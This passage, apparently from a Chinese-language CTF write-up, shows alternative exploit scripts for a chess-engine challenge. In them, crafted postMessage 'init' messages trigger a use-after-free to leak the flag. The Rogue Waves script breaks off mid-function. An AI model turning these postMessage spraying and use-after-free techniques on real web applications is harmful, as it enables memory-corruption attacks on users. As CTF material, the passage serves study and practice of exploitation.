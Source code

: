 ![202303151022496](https://cdn.silente.top/img/202303151022496.png)

后面两位试了几次没搞出来就摆了，不知道有没有其他更好的方法。

下面是一些其他构造：

??? note "官方"
    ```js
    e.source.postMessage({ id: "A".repeat(0), type: "init", data: "8/k7/8/8/8/8/K7/8 w - - 0 1" +" ".repeat(1) }, "*");
    await sleep(250);
    e.source.postMessage({ id: "B".repeat(13), type: "init", data: "8/k7/8/8/8/8/K7/8 w - - 0 1" +" ".repeat(34) }, "*");
    await sleep(250);
    window.frames[0].postMessage("ready", "*");
    await sleep(500);
    e.source.postMessage({ id: "B".repeat(13), type: "init" }, "*");
    return;
    ```

??? note "Rogue Waves"
    ```js
    async function main() {
        // Wait for the ready message to get sent to us from the engine
        let engine = await new Promise(res => { onmessage = (e) => res(e.source) })
        
        // Spam the engine with init requests from different clients
        // (each one uses a different id)
        for (let i = 0; i < lets.length; i++) {
            // Each of these inits will trigger the UAF because 
            // it has data field set to a valid chess string
            // (it won't use the default start string) 
            // To increase chances of success, we use a valid
            // chess string that is the same length as 
            // game.js's id.
            engine.postMessage({
                type: 'init', 
                data: '8/8/8/8/8/8/8/8 ', 
                id: lets[i],
            }, '*')

            await new Promise(res => setTimeout(res, 10))

            // These inits won't trigger the UAF because we are not sending an
            // init string, but it's part of the fuzzing routine that we found to work.
            // You know what they say, "garbage in, flag out."
            engine.postMessage({
                type: 'init', 
                id: lets[i].repeat(16)
            }, '*') 

            await new Promise(res => setTimeout(res, 10))
        }

        await new Promise(res => setTimeout(res, 10))
